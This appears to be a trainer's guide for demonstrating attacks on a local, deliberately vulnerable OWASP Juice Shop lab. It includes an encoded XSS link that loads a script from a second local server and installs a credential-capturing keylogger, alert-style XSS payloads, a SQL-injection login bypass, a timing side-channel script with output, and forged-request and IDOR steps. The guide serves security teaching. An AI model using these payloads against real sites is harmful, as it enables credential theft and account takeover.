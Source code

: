 ```yaml
---
layout: default
---
```


# Setup

Configure and run a custom docker-based instance of juice-shop:

```
sudo docker run -ti --init --rm  -p 3000:3000 -p 8080:80 hugopacheco/juice-shop-demo

sudo apt-get -y install python3-pip
pip3 install requests statistics argparse
```

Install Google Chrome and its [WebSpy](https://chrome.google.com/webstore/detail/webspy-explore-and-test-w/aedipmheomnpcbgmanofhaccebgapije?hl=en) extension.

## FAQ

* For multiple demos, killing and relaunching the docker container shall reset all progress.
* If the timing delays in the timing attack demo are not noticeable, you may increase the delay in milliseconds for each product search by setting the flag `SEARCH_DELAY` before launching the container, e.g. `export SEARCH_DELAY=100` sets the delay to 100ms. 

# Examples

You can demonstrate these in order, or select a few at will.

## Score Board :star: challenge

<details>
<summary>More info</summary>

This challenge serves to demonstrate how Juice Shop challenges work:

1. Explain how to use the browser's Developer Tools.
2. Then show how to find the score-board by inspecting the HTML and JavaScript code of the frontpage.
3. You will find the `score-board` as a `path` defined in file `main.js`. Go to the page `http://localhost:3000/#/score-board`.
4. When you solve a Juice Shop challenge, the site will greet you with a green notification.
</details>
<p></p>

## XSS demo

<details>
<summary>More info</summary>

Showcase the XSS demo (more detailed instructions [here](https://pwning.owasp-juice.shop/appendix/trainers.html)):

1. Open the keylogger at (http://localhost:8080/logger.php).
2. Open this [link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp) in a new tab to start the XSS attack. Your page will run some malicious JS that plays music and shakes to its sound, while it installs a keylogger.
3. Login as an existing user and see that the credentials are being recorded to the keylogger.
4. Refresh the web page to unload the attack script.
</details>
<p></p>

## Zero Stars :star: challenge

<details>
<summary>More info</summary>

Explain how to use WebSpy (under `Developer Tools > Spy`) to monitor the requests made by the browser to the Juice Shop website.
Then show how to submit a zero-star review:

1. Do a regular action: posting a new comment in the *Customer Feedback* page.
2. You may check that your comment actually appears in the *About Us* page.
3. Replay a similar request with WebSpy, this time with `rating:0`. 
</details>
<p></p>

## Timing attack demo

<details>
<summary>More info</summary>

This is a demo on how subtle timing differences may allow us to recover hidden information. This is not an actual Juice Shop challenge, but is inspired by the Christmas Special :star: :star: challenge.

1. Open up WebSpy and find the backend search request. You may notice that, independently of the search query in the frontend, the backend requests is always `/rest/products/search?q=` with an empty query. (Product filtering is happening by default in the JS side.)
2. You can nonetheless replay the request and fill in the `q` argument with your own search term.
3. This is particularly interesting for search terms for which there are **no apparent** products. For example, the Christmas Special challenge invites us to search for an hidden *Christmas special offer of 2014*. We can use WebSpy to search for two different terms such as `christmas` and `personal`; they both return an empty match, but is there a noticeable difference in the time of the request? It does seem so...
4. After all the server may take an arbitrary time to respond. We can further support our suspicions by repeating the same requests multiple times and checking if there is still a significant difference in the average times. Download this Python [script](demo/xs-search.py) to automate the search. Then run the script for our two search terms; you shall get something like this:

```
% python3 xs-search.py christmas
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=False, length=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.03077825400000438
```

```
% python3 xs-search.py personal
Namespace(QUERY='personal', n=10, t='runtime', nextchar=False, length=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.007031379100000438
```

Why does `christmas` take longer than `personal`? Probably because the server is taking more time to compare the search term and prepare the results for products that exist, than for products that do not exist.

5. There does seem to exist some product with the word `christmas` in its name. How can we find its full name? We can start by trying to find the length of the name, not its exact characters. This is possible because the search feature supports a special `_` character wildcard. We just try to append some number of `_` after the word `christmas` (the min and max are adjustable):

```
% python3 xs-search.py christmas --length 30 40
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=False, length=[30, 40], host=['localhost:3000'])
christmas 30 0.029176039000041783
christmas 31 0.02855586099997163
christmas 32 0.02822081399941817
christmas 33 0.029214259500149636
christmas 34 0.029317782500293106
christmas 35 0.006840303499717265
christmas 36 0.006761338000651449
christmas 37 0.00686634499952197
christmas 38 0.006910367999691516
christmas 39 0.006873979499563575
```

You may notice that the timing drops precisely at 35 and onwards. This suggests that our christmas product includes the name `christmas` followed by 35 other characters.

6. Now, how do we find the exact name? An idea is to attempt several characters, and check if there is a measurable time difference. In the script, we are trying characters from `a` to `z` and from `0` to `9`; other special characters are captured by the `_` wildcard. We can repeat this process one character at a time:

```
% python3 xs-search.py christmas -nextchar
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=True, length=None, host=['localhost:3000'])
christmasa 0.008081472499761731
christmasb 0.008309272999875248
...
christmas_ 0.029330530500039458
```

It seems that the `_` wildcard takes longer, hence the next character after `christmas` is neither a letter nor a number. 

```
% python3 xs-search.py christmas_ --nextchar
Namespace(QUERY='christmas_', n=10, t='runtime', nextchar=True, length=None, host=['localhost:3000'])
christmas_a 0.006253162499982864
...
christmas_s 0.029131466499995443
...
christmas__ 0.028724410000257196
```

It seems that `s` takes longer (actually, the same as the `_` wildcard which alwayas matches), hence the word `christmas_s` is in the name of our product.

You can repeat this process 35 times. The name of the actual hidden product is `Christmas Super-Surprise-Box (2014 Edition)`.

</details>
<p></p>

## Confidential Document :star: challenge

<details>
<summary>More info</summary>

1. Check the *About Us* page and follow the linked FTP file (`/ftp/legal.md`).
2. Replay the request with WebSpy to list the parent directory (`/ftp/`).
3. Find the `acquisitions.md` file in the response a get the confidential file (`/ftp/acquisitions.md`)..
</details>
<p></p>

## DOM XSS :star: challenge

<details>
<summary>More info</summary>

Paste the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`) in the search field. You will see a XSS popup.
</details>
<p></p>

## Reflected XSS :star: :star: challenge

<details>
<summary>More info</summary>

1. Create some user and login.
2. Order some product (add some product to the basket, checkout, fill out all the payment information and place order), visit the *Order History* page and click *Track Order* on your order.
3. The link of your product's order information will have the structure `/#/track-result/new?id=7cb0-dd30e23740d08c54`
3. Attack the orders search feature by replacing your order id with the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`). You may need to refresh the page for the script to be actually executed.
</details>
<p></p>

## Admin Registration :star: :star: :star: challenge

<details>
<summary>More info</summary>

1. Register a new user and inspect the request/response in WebSpy.
2. Inspect the fields of the response, you shall see a field `role: customer`
3. Replay the request with `role:admin` to register a new user with admin privileges. Make sure to register a new user; registering a repeated user issues an error.
</details>
<p></p>

## Admin Section :star: :star: challenge

<details>
<summary>More info</summary>

1. You need to be logged in as a user with admin privileges (from previous challenge)
2. Find the admin page by inspecting the HTML and JavaScript using the Developer Tools.
3. You will find the `administration` page as a `path` defined in file `main.js`.
</details>
<p></p>

## Forged Review :star: :star: :star: challenge

<details>
<summary>More info</summary>

1. Submit a new review for some product, while logged in, and replay it with WebSpy.
2. Try changing the author information (the `author` field in the request is just a string, the user doesn't even need to be valid).
</details>
<p></p>

## Forged Feedback :star: :star: :star: challenge

<details>
<summary>More info</summary>

1. Submit a new comment in the *Customer Feedback* page, while logged in, and replay it with WebSpy.
2. Try changing the user information (changing the `UserId` field to some other random user id, e.g. `1`; the user's name in the comment is just a string unrelated to the actual user id).
</details>
<p></p>

##  View Basket :star: :star: challenge

<details>
<summary>More info</summary>

1. View your basket and replay the request with WebSpy for a different user. You may notice that the user id appears in the request link (`/rest/basket/<id>`).
2. Replay the request with WebSpy for some other user id (e.g., `1`).
</details>
<p></p>

## Login Admin :star: :star: challenge

<details>
<summary>More info</summary>

You can also try to break authentication by demonstrating how SQL injection works:

1. Search for user account name in the *About Us* page. You may notice that there are a few `****@juice-sh.op` accounts.
2. Since we trying to login as special user named admin, a good guess is to assume that his account name will be `admin@juice-sh.op`.
3. Go to the login page and demonstrate the SQL injection by typing `admin@juice-sh.op' --` in the `username` field and anything in the `password` field.
4. You may confirm that this user actually has administrator privileges by going to the `/#/administration` page.
</details>
<p></p>



